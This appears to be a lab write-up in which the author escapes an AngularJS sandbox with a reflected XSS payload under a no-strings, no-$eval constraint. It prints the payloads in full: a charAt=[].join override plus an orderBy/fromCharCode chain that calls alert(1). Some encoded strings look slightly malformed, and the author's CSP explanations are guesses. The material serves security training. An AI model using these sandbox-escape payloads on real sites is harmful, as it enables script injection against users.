 **Lab Description:**
This lab uses AngularJS in an unusual way where the `$eval` function is not available and you will be unable to use any strings in AngularJS

To solve the lab, perform a cross-site scripting attack that escapes the sandbox and executes the `alert` function without using the `$eval` function.

---

## Introduction

This lab featured a reflected Cross-Site Scripting (XSS) vulnerability within a search function built on the AnjularJS framework. The core challenge was to bypass the AngularJS sandbox under strict constraints: the `$eval` function was disabled, and string literals were prohibited. This write-up details the methodology, failed attempts, and the final advanced payload constructed to successfully escape the sandbox and achieve code execution.

In this write-up, I will explain the step-by-step process I followed in my attempts, and I will deconstruct the final payload to understand each step.

---

## 1. Reconnaissance

In this step, I searched for injection vector in system. Vulnerability is a reflected XSS in search function, i searched for any string and analysing the code source with dev tools.

Identify the `<script>` ng
<img width="1525" height="112" alt="image" src="https://github.com/user-attachments/assets/3674f5a6-c961-4004-9f84-f1f3e1f5163c" />


```javascript
angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
                            $scope.query = {};
                            var key = 'search';
                            $scope.query[key] = 'x';
                            $scope.value = $parse(key)($scope.query);
                        });
```

An attempt to inject a simple expression like `{{7*7}}` was unsuccessful, as the input was treated as a literal string. 

I try escape for String with a single quote encoded `&apos;x`, and result is:

<img width="819" height="209" alt="image" src="https://github.com/user-attachments/assets/4fd4c3cf-807c-40d8-9f3a-d55ab9794560" />


I note in the script, char `&` is null, and duplicate the variables in block.  

```javascript
angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
                            $scope.query = {};
                            var key = 'search';
                            $scope.query[key] = '';
                            $scope.value = $parse(key)($scope.query);
                            var key = 'apos;x';
                            $scope.query[key] = '';
                            $scope.value = $parse(key)($scope.query);
                        });
```

However, a ctritical discovery was made when testing special characters, By injecting `&7*7`, I observed that the application was vulnerable to `HTTP Parameter Pollution (HPP)`. The `&` character caused the application create a new, unexpected parameter named ``7*7`` with a value of `49`, as seen in the rendered HTML.

<img width="893" height="248" alt="image" src="https://github.com/user-attachments/assets/d12460a7-c397-4350-84d7-93cb3e192fa5" />


The confirmed that the injection point was not limited to the `search` parameter's value, but that I could inject new parameters directly into the server-side logic. This became the core strategy for the exploit

---

## 2. Payload and Exploit.

**Attempt #1:** `orderBy` with `fromCharCode`

The lab's constraints (`no $eval`, `no strings`) led to the first advanced payload attempt. The `orderBy` filter was chosen as an alternative execution sink, and `String.fromCharCode()` was use to dynamically build the `alert(1)` string.

**Payload:** `[123]|orderBy:(true.toString()).constructor.fromCharCode(97,108,101,114,116,40,49,41)()`
- `[123]|orderBy:`: Alternative method for `eval`
- `(true.toString())`: access the String "true"
- `constructor.fromCharCode(97,108,101,114,116,40,49,41)()`: access the global using constructor and called the `alert` using the char codes. The final use `()` for function 

**Result:** This payload caused the application to break, displaying the raw template `{{value}}`. This was a crucial clue, suggesting that while the expression was being evaluated, a final security layer (likely a Content Security Policy - CSP) was blocking the execution, causing a fatal error 

<img width="986" height="63" alt="image" src="https://github.com/user-attachments/assets/1e823938-6ea6-4665-82c3-fd8f933c55af" />


**Attempt #2:** Combinated with `charAt=[].join`

The second payload combinate the other method one of most used for escape sandbox:
`'a'.constructor.prototype.charAt=[].join;`

This payload override the ``String.prototype.charAt`` function with ``[].join``, if sandbox validate to sintaxe, received the full string, the lojic for comparate in JavaScript 'a' <= your_payload return `true`, in this case the expressions is valid.

**Payload:**
```javascript
&true.toString().constructor.prototype.charAt=[].join;(true.toString()).constructor.fromCharCode(97,108,101,114,116,40,49,41)()
```

But, null result

**The Final Payload: Combining Techniques**

The final solution required chaining multiple techniques. To bypass the sandbox's syntax validation which blocked special characters like `=`, the `charAt` bypass was necessary.

The goal was to execute the expression `x=alert(1)=1`. The `fromCharCode` method was used to build the string `x=alert(1)`. This entire structure was then passed to the `orderBy` filter.

In this case, the payload final is:

```javascript
&true.toString().constructor.prototype.charAt=[].join;[123]|orderBy:(true.toString()).constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

An initial attempt failed. I observed that the server-side logic was spliting the payload at the `=` character due to the HPP vulnerability. To bypass this, the first `=` in the payload (`charAt=[].join`) had to be URL-encoded as `%3D`.

```javascript
angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
                            $scope.query = {};
                            var key = 'search';
                            $scope.query[key] = '1';
                            $scope.value = $parse(key)($scope.query);
                            var key = 'toString().constructor.prototype.charAt';
                            $scope.query[key] = '[].join;[123]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1';
                            $scope.value = $parse(key)($scope.query);
                        });
```

**Final Successful Payload (URL Encoded):**

```javascript
&true.toString().constructor.prototype.charAt%3D%[].join;[123]|orderBy:(true.toString()).constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

**Result:** This successfully solved the lab. Although the `alert()` pop-up was not visually triggered (likely due to the CSP), the lab's backend detected the successful sandbox escape and registered the solution. This is a common behavior in modern security labs, where the proof of concept is the ability to force a security violation, not necessarily a visible alert.

<img width="1169" height="313" alt="image" src="https://github.com/user-attachments/assets/cc623e14-1b07-4f90-8471-ff7757c0f0f3" />
<img width="855" height="211" alt="image" src="https://github.com/user-attachments/assets/d22beaa3-b45f-414c-9ce7-96bede68f346" />



---

## Conclusion

The solution to this lab required a multi-layered approach, mirroring real-world application security. It was not enough to know a single technique; the key was to diagnose the application's behavior at each step and chain multiple exploits together. The successful exploit demonstrated a bypass of string limitations (`fromCharCode`), execution sink restrictions (`orderBy`), sandbox syntax validation (`cahrAt` bypass), and server-side parsing quirks (HPP and URL encoding). This proves that modern web application hacking requires a deep understading of the full request-response cycle and framework specific security features. 
